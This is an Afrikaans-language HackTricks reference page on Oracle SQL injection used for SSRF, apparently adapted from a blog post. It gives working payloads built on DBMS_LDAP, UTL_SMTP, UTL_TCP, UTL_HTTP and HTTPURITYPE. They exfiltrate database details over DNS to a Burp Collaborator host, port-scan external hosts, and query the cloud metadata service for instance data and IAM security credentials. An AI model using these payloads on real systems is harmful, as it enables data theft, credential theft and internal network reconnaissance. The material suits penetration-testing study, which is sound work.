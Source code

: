 # Oracle injection

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Dien 'n wayback machine-kopie van die verwyderde pos in by [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Die gebruik van Oracle om Out of Band HTTP en DNS versoeke te doen is goed gedokumenteer, maar as 'n middel om SQL data in inspuitings te exfiltreer. Ons kan altyd hierdie tegnieke/funksies aanpas om ander SSRF/XSPA te doen.

Om Oracle te installeer kan regtig pynlik wees, veral as jy 'n vinnige instansie wil opstel om opdragte uit te probeer. My vriend en kollega by [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), het my gewys na [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) wat my toegelaat het om 'n instansie op 'n t2.large AWS Ubuntu masjien en Docker op te stel.

Ek het die docker opdrag met die `--network="host"` vlag gedraai sodat ek Oracle as 'n inheemse installasie met volle netwerktoegang kon naboots, vir die duur van hierdie blogpos.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle-pakkette wat 'n URL of 'n Gasheer/Poortnommer spesifikasie ondersteun <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Om enige pakkette en funksies te vind wat 'n gasheer en poort spesifikasie ondersteun, het ek 'n Google-soektog op die [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html) gedoen. Spesifiek,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Die soektog het die volgende resultate teruggegee (nie almal kan gebruik word om uitgaande netwerk te voer nie)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Hierdie ruwe soektog slaag duidelik oor pakkette soos `DBMS_LDAP` (wat die oordrag van 'n gasheernaam en poortnommer toelaat) aangesien [die dokumentasiebladsy](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) jou eenvoudig na 'n [ander plek](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) verwys. Daarom mag daar ander Oracle-pakkette wees wat misbruik kan word om uitgaande versoeke te maak wat ek dalk gemis het.

In elk geval, kom ons kyk na 'n paar van die pakkette wat ons ontdek het en hierbo gelys is.

**DBMS\_LDAP.INIT**

Die `DBMS_LDAP` pakket stel toegang tot data van LDAP-bedieners moontlik. Die `init()` funksie inisieer 'n sessie met 'n LDAP-bediener en neem 'n gasheernaam en poortnommer as 'n argument.

Hierdie funksie is voorheen gedokumenteer om die ekfiltrasie van data oor DNS te toon, soos hieronder
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
However, gegewe dat die funksie 'n hostname en 'n poortnommer as argumente aanvaar, kan jy dit gebruik om soos 'n poortskandeerder te werk.

Hier is 'n paar voorbeelde
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` dui aan dat die poort gesluit is terwyl 'n sessiewaarde na die poort wat oop is, dui.

**UTL\_SMTP**

Die `UTL_SMTP` pakket is ontwerp om e-posse oor SMTP te stuur. Die voorbeeld wat op die [Oracle dokumentasiewebwerf verskaf word, wys hoe jy hierdie pakket kan gebruik om 'n e-pos te stuur](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Vir ons is die interessante ding egter die vermoë om 'n gasheer- en poortspesifikasie te verskaf.

'n Grof voorbeeld word hieronder getoon met die `UTL_SMTP.OPEN_CONNECTION` funksie, met 'n tydsduur van 2 sekondes.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
A `ORA-29276: transfer timeout` dui aan dat die poort oop is, maar geen SMTP-verbinding tot stand gebring is nie, terwyl 'n `ORA-29278: SMTP transient error: 421 Service not available` dui aan dat die poort gesluit is.

**UTL\_TCP**

Die `UTL_TCP` pakket en sy prosedures en funksies laat [TCP/IP-gebaseerde kommunikasie met dienste](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190) toe. As dit geprogrammeer is vir 'n spesifieke diens, kan hierdie pakket maklik 'n manier in die netwerk word of volle Server Side Requests uitvoer, aangesien alle aspekte van 'n TCP/IP-verbinding beheer kan word.

Die voorbeeld [op die Oracle-dokumentasiewebwerf wys hoe jy hierdie pakket kan gebruik om 'n rou TCP-verbinding te maak om 'n webblad te verkry](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). Ons kan dit eenvoudig 'n bietjie meer vereenvoudig en dit gebruik om versoeke aan die metadata-instantie te maak, byvoorbeeld, of aan 'n arbitrêre TCP/IP-diens.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Interessant genoeg, as gevolg van die vermoë om rou TCP versoeke te vervaardig, kan hierdie pakket ook gebruik word om die Instansie meta-data diens van alle wolkverskaffers te ondervra, aangesien die metode tipe en addisionele koppe alles binne die TCP versoek oorgedra kan word.

**UTL\_HTTP en Web Versoeke**

Misschien is die mees algemene en wyd gedokumenteerde tegniek in elke Out of Band Oracle SQL Injection tutoriaal daar buite die [`UTL_HTTP` pakket](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Hierdie pakket word deur die dokumentasie gedefinieer as - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
U kan dit ook gebruik om 'n paar rudimentêre poortskandering uit te voer met vrae soos
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
A `ORA-12541: TNS:no listener` of `TNS:operation timed out` is 'n teken dat die TCP-poort gesluit is, terwyl 'n `ORA-29263: HTTP protocol error` of data 'n teken is dat die poort oop is.

Nog 'n pakket wat ek in die verlede met verskillende sukses gebruik het, is die [`GETCLOB()` metode van die `HTTPURITYPE` Oracle abstrakte tipe](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705) wat jou toelaat om met 'n URL te kommunikeer en ondersteuning bied vir die HTTP-protokol. Die `GETCLOB()` metode word gebruik om die GET-respons van 'n URL as 'n [CLOB datatipe.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
